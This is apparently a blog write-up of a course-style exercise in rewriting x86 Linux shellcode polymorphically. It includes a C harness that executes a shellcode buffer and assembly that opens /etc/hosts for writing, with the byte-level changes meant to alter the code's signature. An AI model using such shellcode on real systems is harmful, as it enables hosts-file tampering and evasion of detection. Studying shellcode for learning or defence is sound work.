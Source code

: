 ```nasm

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
<p style="text-align: justify;">I will try to present my polymorphic shellcode in parts (and finally the whole) in order to explain in detail the changes and improvements I have made.</p>
------------------------------------------------------------------------------------------------
### Clearing 

Original code:
```nasm
  xor ecx, ecx
  mul ecx
```
Code after changes:
```nasm
  push ecx
  pop eax
```
<p style="text-align: justify;">After analysis in GDB, it turned out that only the EAX register is required to be reset (other registers already contain zeros). We can therefore replace two double-byte lines of code with two single-byte ones, thus saving two bytes.
</p>

### sys_open()

Original code:
```nasm
  mov al, 0x5     
  push ecx
  push 0x7374736f     ;/etc///hosts
  push 0x682f2f2f
  push 0x6374652f
  mov ebx, esp
  mov cx, 0x401       ;permmisions
  int 0x80            ;syscall to open file
```
Code after changes:
```nasm
  add al, 5
  push ecx
  jmp short _second

_hosts:
  pop ebx
  mov cx, 0x401
  int 0x80

[..]

_second:
  call _hosts
  host db "/etc/hosts"
```